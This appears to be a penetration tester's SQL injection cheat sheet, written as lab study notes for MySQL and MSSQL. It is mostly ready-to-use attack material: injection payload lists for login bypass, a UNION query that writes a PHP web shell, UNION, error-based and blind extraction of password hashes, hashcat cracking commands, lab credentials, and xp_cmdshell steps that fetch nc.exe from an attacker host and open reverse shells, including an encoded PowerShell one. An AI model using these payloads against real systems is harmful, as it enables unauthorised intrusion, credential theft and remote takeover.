# SQL Injections

## MySQL

```bash
mysql -u USERNAME -p'PASSWORD' -h <TARGET IP> -P 3306 --skip-ssl-verify-server-cert

#Example:
mysql -u root -p'root' -h 192.168.50.16 -P 3306 --skip-ssl-verify-server-cert

#Note: If ERROR 2026 (HY000) TLS/SSL error shows up, we can append --skip-ssl at the end of the command to connect to the database.
```
## MySQL Version
```bash
select version();
```
## MySQL Current Database User
```bash
select system_user();
#Result
+--------------------+
| system_user()      |
+--------------------+
| root@192.168.20.50 |
+--------------------+
1 row in set (0.104 sec)
```
## MySQL List of Databases
```bash
show databases;
# Results
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| test               |
+--------------------+

# Switch to another database
use test;

# Continue to enumerate
show tables;
#Results
+----------------+
| Tables_in_test |
+----------------+
| users          |
+----------------+

# Select a table
SELECT * FROM users;
```

## Password of a KNOWN username
```bash
#Example username 'offsec'
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';

#Results
+--------+------------------------------------------------------------------------+
| user   | authentication_string                                                  |
+--------+------------------------------------------------------------------------+
| offsec | $A$005$?qvorPp8#lTKH1j54xuw4C5VsXe5IAa1cFUYdQMiBxQVEzZG9XWd/e6|
+--------+------------------------------------------------------------------------+
1 row in set (0.106 sec)

# user's password is stored in the authentication_string field as a Caching-SHA-256 algorithm.

# To figure out what kind of hash this is. run:
SELECT user, plugin FROM mysql.user WHERE user = 'offsec';

#Results
+--------+-----------------------+
| user   | plugin                |
+--------+-----------------------+
| offsec | caching_sha2_password |
+--------+-----------------------+
1 row in set (0.093 sec)

#Hashcat note:
# SHA256 based → hashcat mode 7401
hashcat -m 7401 <HASH_FILE> /usr/share/wordlists/rockyou.txt
# SHA1 based → hashcat mode 300
hashcat -m 300 <HASH_FILE> /usr/share/wordlists/rockyou.txt

```
## MySQL Via Evil-WinRM
```bash
# Open Powershell
# Enumerate Databases
C:\xampp\mysql\bin\mysql.exe -u root -e "show databases;"
#Results
Database
creds
information_schema
mysql
performance_schema
phpmyadmin
test

# Enumerate Tables
*Evil-WinRM* PS C:\Users\apache.ERA\Documents> C:\xampp\mysql\bin\mysql.exe -u root -e "use creds; show tables;"
 
#Results
Tables_in_creds
creds

# Enumerate creds
*Evil-WinRM* PS C:\Users\apache.ERA\Documents> C:\xampp\mysql\bin\mysql.exe -u root -e "use creds; select * from creds;"
 
#Results
name    pass
administrator   Almost4There8.?
charlotte       Game2On4.!
```
--------------------------------------------------------------

# MSSQL

## Connecting to MSSQL via impacket

```bash
mssqlclient.py Administrator:Lab123@192.168.155.18 -windows-auth-windows-auth
```
## IMPORTANT NOTE
- When using an SQL Server command line tool like sqlcmd, we must submit our SQL statement ending with a semicolon followed by GO on a separate line. However, when running the command remotely, we can omit the GO statement since it's not part of the MSSQL TDS protocol.
#### Inspect the version
```bash
SELECT @@version;
```

## MSSQL List all the available Databases
```bash
SELECT name FROM sys.databases;

#Note: master, tempdb, model, and msdb are default databases. Explore any custom ones. IE: offsec

#Once you have the database, you need to explore its scheme to figure out where you would like to navigate.

SELECT * FROM offsec.information_schema.tables;

#Results
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
offsec          dbo            users        b'BASE TABLE'   

#NOTE: Information_schema only shows user-created tables. NOT System Tables.

# List System Users
SELECT * FROM master.sys.sysusers;
```
## List Users once DB is found and schema is listed

```bash
select * from offsec.dbo.users;

#Results
username     password     
----------   ----------   
admin        lab        

guest        guest 
```

# SQL Exploitation

## Identifying SQLi via Error-based Payloads

## Common SQLi
```bash
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-

# can try this if all else fails
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
# Then navigate to here to exploit
http://192.168.45.285/tmp/webshell.php?cmd=id
```

```bash
#Example PHP Code found
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

- Since both the uname and password parameters come from user-supplied input, we can control the $sql_query variable and craft a different SQL query.

```bash
<USERNAME' OR 1=1 -- //

#or

offsec' OR 1=1 -- //

#or
admin' OR 1=1 -- //
```

# Interacting with the SQL Database

## Put in username
```bash
#Example: offsec

# Invalid Password. Nothing useful.
```


```bash
# Now add a special character inside the Username field to test for any interaction with the underlying SQL server. We'll append a single quote to the username and click Submit again.
offsec'

# We receive an SQL syntax error this time, meaning we can interact with the database.
```


## Try Various Payloads
```bash
<USERNAME' OR 1=1 -- //
#or
offsec' OR 1=1 -- //
#or
admin' OR 1=1 -- //
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```


## Enable xp_cmdshell and establish reverse shell

```bash
# Note: This is only viable if one of the previous payloads indicated it was vulnerable
# In this example admin' proved it was vulnerable.
# The key components are:

' — closes the open string
; — ends the original query
EXECUTE ... — your new command
-- — comments out the rest

# Run these one at a time in the vulnerable field (IE: Username or Password ETC.)
# Enable advanced options and xp_cmdshell

';EXECUTE sp_configure 'show advanced options',1--

';RECONFIGURE;--

';EXECUTE sp_configure 'xp_cmdshell',1--

';RECONFIGURE;--
 
# Download netcat to target system
# Start HTTP Server with nc.exe
python -m http.server 80 

';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.236:80/nc.exe c:/windows/temp/nc64.exe";--

# Start Listener
nc -lnvp 4444

# Execute reverse shell
';EXEC xp_cmdshell "c:/windows/temp/nc64.exe -e cmd.exe 192.168.45.244 4444";--
```


## Error Based Payload

```bash
' or 1=1 in (select @@version) -- //
```


## Dump User Tables

```bash
' OR 1=1 in (SELECT * FROM users) -- //

#This gave us an error: Error: Operand should contain 1 column(s) 
```


## Query one column (Password) based on previous error

```bash
' or 1=1 in (SELECT password FROM users) -- //

#The only problem we have is we do not know what hash belongs to each user.
```


## Query one column (Password) with username admin

```bash
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```


## UNION-based Payloads
- For UNION SQLi attacks to work, we first need to satisfy two conditions:
  - The injected UNION query has to include the same number of columns as the original query.
  - The data types need to be compatible between each column.

```bash
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```
## Step 1: Determine the number of columns:
```bash
' ORDER BY 1-- //

# No results
```


```bash
#Keep going until:
' ORDER BY 6-- //

#Since 6 gave us an error. We can determine that there are 5 columns
```


## Step2: Determine which columns are displayed

```bash
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //

# Note: It starts at a2 - a5
# column 1 or a1 is typically reserved for the ID field consisting of an integer data type, meaning it cannot return the string value we are requesting through the SELECT database() statement.
```


## Step 3:  Enumerating the current database name, user, and MySQL version
```bash
%' UNION SELECT database(), user(), @@version, null, null -- //

# Note: We did NOT get the database name due to the a1 field not being present. Lets move everything over to the right.
```


```bash
' UNION SELECT null, null, database(), user(), @@version  -- //

# We moved everything to the right and retrieved the database name `offsec`
```


## Step 4:  verify whether other tables are present in the current database

```bash
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

# This is asking Table name and Column name and associated Database

# Example: Inside Customer Table, there are columns: id, name, phone, address, country
# We also discovered users table, columns: username, password, description
```


## Step 5: dump the discovered `users` table
```bash
' UNION SELECT null, username, password, description, null FROM users -- //

# Discovered MD5 hashes of the entire users table
```


# Blind SQL Injections
- Database responses are never returned and behavior is inferred using either boolean- or time-based logic. Results are returned based off TRUE or FALSE results.
- Based on the response time, the attacker can conclude if the statement is TRUE or FALSE.

## URL Exploit

```bash
Default page
```


```bash
Change the URL to potentially reveal a result. Either the user `offsec` exist, or it does not.

?user=offsec

#Full URL:
http://192.168.183.16/blindsqli.php?user=offsec
```




```bash
# Try admin
```


## Test for boolean-based SQLi

```bash
?user=offsec' AND 1=1 -- //

# This combines our previous query + boolean logic
# Full URL: http://192.168.183.16/blindsqli.php?user=offsec%27%20AND%201=1%20--%20//
```


## Time-based SQLi payload

```bash
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

# Log into MSSQL via Impacket
```bash
mssqlclient.py Administrator:Lab123@192.168.155.18 -windows-auth
```
## MSSQL Help
```bash
help
```

## Enumerate Databases
```bash
enum_db
```

## Switch to Discovered Database
```bash
USE <DATABASE NAME>;
#Example
USE passwords;
```
## Enable xp_cmdshell
```bash
EXECUTE sp_configure 'show advanced options', 1;
#Results 
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

#Then
SQL> RECONFIGURE;

#Then
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;

#Results
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
#Then
SQL> RECONFIGURE;
```
- Now we can execute any Windows shell command through the EXECUTE statement followed by the feature name


#### Execute Commands via xp_cmdshell
```bash
EXECUTE xp_cmdshell 'whoami';
```


```bash
#Upgrade our shell to a reverse shell
# Start Listner
nc -lvnp 4444

#Revshell.com and generate a shell via Powershell #3 (Base64)
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANgAxACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```


```bash
# Execute Shell
#Agnostic Version
EXECUTE xp_cmdshell '<paste here>';

#Example Version:
